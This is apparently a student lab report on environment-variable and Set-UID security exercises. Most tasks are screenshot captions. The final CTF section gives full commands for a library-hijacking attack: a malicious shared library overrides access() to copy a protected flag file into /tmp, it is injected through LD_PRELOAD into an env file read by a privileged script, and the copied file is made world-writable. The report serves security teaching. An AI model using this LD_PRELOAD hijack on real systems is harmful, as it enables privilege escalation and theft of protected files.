# Trabalho realizado na Semana #4

## Task 1

- After running printenv


- After running printenv PWD to specify the variable


- Changing PWD from "/home/seed" to "/home" with export


- Unsetting the PWD variable



## Task 2

- With line 2 commented out, this is the output of myprintenv.c, which we passed to a file.


- With line 2 uncommented and line 1 commented out, the output looks like this:


- After using the diff command, we can see there are no differences between the programs' outputs.


## Task 3


This task's objective is to analyse the behaviour of environment variables when the program is executed via the execve() function.

- After executing myenv.c with the "NULL" expression as the function's third parameter, the output of the program is null. 


- Now with the variable "environ" as the third parameter:



When the parameter was "NULL", the environment variables could not be registered there, but when we changed to a non-null variable, the environment variables are registered and then outputted.

## Task 4

In this task, we will use the system() function instead of execve(), which means that, instead of executing the command directly, we will first ask the shell to run it.

- By using the system() function and asking the shell to run the command, we have access to root privileges.


## Task 5

- After altering altering the MY_VAR and LD_LIBRARY_PATH variables, we were suprised to find that the LD_LIBRARY_PATH variable does not print after running the program.



## Task 6

- We altered the code in the foo.c file to run the ls program (as shown below)

- The ls.c program will use geteuid() to find out if we have root privileges:

- Final result:



## CTF

We present below the code we used to complete the CTF.
>Write what's in flag.txt to a file in another directory we can access.
>```
>echo "#include <stdlib.h>
>#include <stdio.h>
>int access(const char *pathname, int mode) { 
>   system(\"/usr/bin/cat /flags/flag.txt > /tmp/myfile.txt \");
>   return 0;
>} " >> printenv.c
>```
>Create a library with our printenv.c.
>```
>gcc -fPIC -g -c printenv.c 
>gcc -shared -o libmylib.so.1.0.1 printenv.o -lc 
>```
>Preloads the library to env file, which is used in the script back in /flag_reader, so that our code runs before any other library. 
>```
>echo "LD_PRELOAD=/tmp/libmylib.so.1.0.1" >> env 
>```
>Change file permissions.
>```
>touch myfile.txt
>chmod 777 myfile.txt 
>```
>Immediately after the script in the flag_reader folder is executed to get the content from the file.
>```
>cat myfile.txt 
>```
